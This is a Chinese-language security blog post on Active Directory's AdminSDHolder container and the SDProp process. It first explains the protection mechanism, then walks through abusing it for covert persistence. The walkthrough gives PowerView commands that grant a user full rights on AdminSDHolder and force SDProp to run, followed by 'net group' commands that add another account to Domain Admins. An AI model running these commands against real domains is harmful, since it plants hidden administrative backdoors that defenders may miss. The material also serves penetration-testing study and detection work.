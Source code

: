 **目录**

[SDProp与AdminSDHolder](#t0 "SDProp与AdminSDHolder")

[利用AdminSDHolder和SDProp实现隐蔽的权限维持](#t1 "利用AdminSDHolder和SDProp实现隐蔽的权限维持 ") 

* * *

SDProp与AdminSDHolder
--------------------

受保护对象（通常是一些特权内置账号如Domain Admins、Enterprise Admins等）被系统安全策略保护，以避免这些特权对象被恶意修改或滥用（防止被删除、修改权限等）。每一个被保护的对象由SDProp进程（Security Descriptor Propagation）监控保护，SDProp进程每60分钟运行一次，运行时检查受保护对象的安全描述符，检查将依照AdminSDHolder容器的ACL，如果受保护对象的ACL配置与AdminSDHolder容器的ACL配置不一致，SDProp进程将重写该受保护对象的ACL，使其恢复与AdminSDHolder容器相同的ACL配置。

AdminSDHolder位于AD的System下，distinguishedName(可分辨名称)为：CN=AdminSDHolder,CN=System,DC=xie,DC=com，可以理解为AdminSDHolder的ACL配置是一个安全的配置模板。

![](https://img-blog.csdnimg.cn/20210218110300528.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

**AdminCount属性**

被SDProp进程保护的对象会将AdminCount属性设置为1，SDProp进程根据该属性识别哪些对象是受保护的。值得注意的是，当一个原本受保护的对象从受保护组中移除之后，AdminCount属性不会被重置（仍然保持原来的设置值）。

![](https://img-blog.csdnimg.cn/20210218110444561.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

手动触发SDProp进程：通过LDAP修改fixupInheritance值为1（Windows 2008及后续版本修改runProtectAdminGroupsTask）来触发即时的SDProp进程运行。传送门：[Q. How can I force AdminSDHolder permissions to be enforced? | IT Pro](https://www.itprotoday.com/security/q-how-can-i-force-adminsdholder-permissions-be-enforced "Q. How can I force AdminSDHolder permissions to be enforced? | IT Pro")

AdminSDHolder默认保护的对象（Windows 2008/Windows 2008 R2）：

```
Account Operators，Administrator，Administrators，Backup Operators，Domain Admins，Domain Controllers，Enterprise Admins，Krbtgt，Print Operators，Read-only Domain Controllers，Replicator，Schema Admins，Server Operators
```


PowerSplit中的Powerview脚本提供了可以枚举AdminCount值为1的对象

```
Import-Module .\PowerView.ps1;Get-NetUser -Admincount      
Import-Module .\PowerView.ps1;Get-NetGroup -Admincount
```


![](https://img-blog.csdnimg.cn/20200714141330968.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/20200714141353649.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

利用AdminSDHolder和SDProp实现隐蔽的权限维持 
--------------------------------

已经拿到域管权限，利用域管权限，修改AdminSDHolder的ACL配置，这样当SDProp进程运行时以AdminSDHolder的ACL为模板进行受保护对象ACL配置检查时，将会把添加进去的配置同步到受保护对象的ACL中。

1.  将目标用户添加到AdminSDHolder对象的ACL中，使其拥有“完全控制”权限或“修改”权限，这一步操作需要域管权限；
2.  等待SDProp进程运行，SDProp运行之后，目标用户将成为域管理员组的成员，该用户可以修改域管理员组成员关系，意味着其可以将其他账号提升为域管理员（注意该用户并不属于域管理员组，直接查看该用户的memberof属性是没有域管组的，但是因为域管理员组的ACL中有一条对该用户的权限分配，因此其对域管组有权限）；
    

利用Powerview集成的函数可以实现上述攻击。

```
#为AdminSDHolder容器添加ACL，为用户hack分配完整权限。      
Add-ObjectAcl -TargetADSprefix "CN=AdminSDHolder, CN=System"  -PrincipalSamAccountName hack -Rights All      
#查询AdminSDHolder的ACL配置，确认hack用户已对AdminSDHolder具有权限      
Get-ObjectAcl -ResolveGUIDs -ADSprefix "CN=AdminSDHolder, CN=System" | ? {$_.identityReference -match "hack"}
```


![](https://img-blog.csdnimg.cn/20200714110230109.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

等待SDProp进程运行完成后(我们也可以使用Invoke-ADSDPropagation.ps1脚本触发SDProp的运行)

```
#使用Invoke-ADSDPropagation.ps1脚本触发SDProp运行      
Import-Module .\Invoke-ADSDPropagation.ps1;Invoke-ADSDPropagation -TaskName runProtectAdminGroupsTask       
#检查hack用户对域管理员组是否具有权限      
Get-ObjectAcl -ADSprefix "CN=Domain admins,CN=Users" -resolveguids | ? {$_.identityreference -match "hack"}      
#并且hack用户不在管理员组中      
net user hack /domain
```


![](https://img-blog.csdnimg.cn/20200714141935997.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/20200714135545148.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

以hack用户身份登录，将域用户hack2添加到域管理员组中 

```
#将test用户添加到域管理员组中。      
net group "domain admins" hack2 /add      
net group "domain admins"
```


![](https://img-blog.csdnimg.cn/20200714142056165.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

 如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！[知识星球 | 深度连接铁杆粉丝，运营高品质社群，知识变现的工具](https://wx.zsxq.com/dweb2/index/group/88514121251242 "知识星球 | 深度连接铁杆粉丝，运营高品质社群，知识变现的工具")

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)

参考文章：[域渗透中的ACL访问控制和组策略利用方法](https://www.freebuf.com/news/231037.html "域渗透中的ACL访问控制和组策略利用方法")